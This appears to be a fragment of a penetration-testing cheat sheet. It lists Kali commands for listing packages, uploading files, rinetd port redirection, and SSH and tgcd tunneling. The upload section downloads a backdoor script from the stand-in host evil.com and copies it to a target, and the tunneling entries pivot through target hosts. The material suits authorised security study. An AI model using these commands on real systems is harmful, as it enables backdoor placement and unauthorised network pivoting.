 ##### Listing Packages

```
Kali> dpkg -l
Kali> rpm -qa
```

##### Uploading Files

```
Kali> wget http://evil.com/backdoor.py
Kali> curl http://evil.com/backdoor.py
Kali> scp ~/backdoor.py user@$TARGET:tmp/backdoor.py
```

##### Port Redirection

> ###### rinetd

```
rinetd

vi /etc/rinetd.conf
# bind        # port        # connect        # port
a.b.c.d     53             e.f.g.h         80
```

##### SSH

> ###### Generate key

```
Kali> ssh-keygen -t rsa
```

> ###### SSH with Key

```
Kali> ssh -i key_file user@host
```

> ###### SSH Tunneling

```
# Local Tunnel
Kali> ssh $ATTACKER -L 3000:$TARGET:2222

# Remote Tunnel
Kali> ssh $TARGET -R 2222:localhost:3000

# Dynamic Tunnel to $TARGET
Kali> ssh -D 127.0.0.1:3000 -N username@$TARGET
```

> ###### tgcd tunneling

```
Kali> tgcd -L -p 9999 -q 40000
Kali> tgcd -C -s IP:9999 -c ATTACKER:40000
Kali> iptables -t nat -A OUTPUT -d IP -j DNAT --to-destination 127.0.0.1
```
